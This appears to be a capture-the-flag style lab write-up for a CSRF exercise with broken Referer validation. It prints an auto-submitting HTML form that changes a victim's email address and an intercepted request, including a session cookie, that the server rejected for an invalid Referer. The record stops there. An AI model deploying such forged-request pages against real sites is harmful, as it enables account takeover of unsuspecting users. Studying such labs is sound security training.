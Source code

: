 ### Lab: CSRF with broken Referer validation

Initial exploit:

Head:

```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
```

Body:

```
<html>
    <body>
        <form action="https://TARGET-WEBSEVER-ID.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```


Intercepted request from trying to view inital exploit 

```
POST /my-account/change-email HTTP/1.1
Host: TARGET-WEBSEVER-ID.web-security-academy.net
Cookie: session=wEAUNFbKBr6HWLmwkEsPskSkoq0BhTPU
Content-Length: 27
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://EXPLOIT-SERVER-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Referer: https://EXPLOIT-SERVER-ID.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

email=pwned%40evil-user.net
```
- From this request, we encounter "Invalid referer header" error
